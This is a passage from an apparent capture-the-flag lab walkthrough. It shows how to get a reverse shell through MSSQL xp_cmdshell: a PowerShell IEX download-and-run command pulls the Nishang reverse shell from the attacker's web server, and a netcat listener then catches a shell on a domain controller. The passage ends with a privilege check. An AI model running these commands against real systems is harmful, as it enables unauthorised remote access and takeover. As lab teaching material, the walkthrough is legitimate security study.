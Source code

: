 That worked. Let's try to get a reverse shell. I found [this](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell) article that helped.

First start a webserver:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Get the Nishang reverse shell from [here](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1). Edit it and put this at end:

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.8.165.116 -Port 1337
```

Start netcat listening on port 1337 waiting to catch our shell:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# nc -nlvp 1337
listening on [any] 1337 ...
```

## Nishang Reverse Shell

Now go back to our SQL session and use it to call our reverse shell:

```text
SQL> xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.8.165.116/Invoke-PowerShellTcp.ps1\")
```

Switch back to our nc listener to see we are connected:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.13.199] 50190
Windows PowerShell running as user SVC-Kerb on DC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Windows\system32>
```

Let's check who we are and our permissions:

```text
PS C:\Windows\system32>whoami
dc01\svc-kerb

PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Windows\system32> 
```
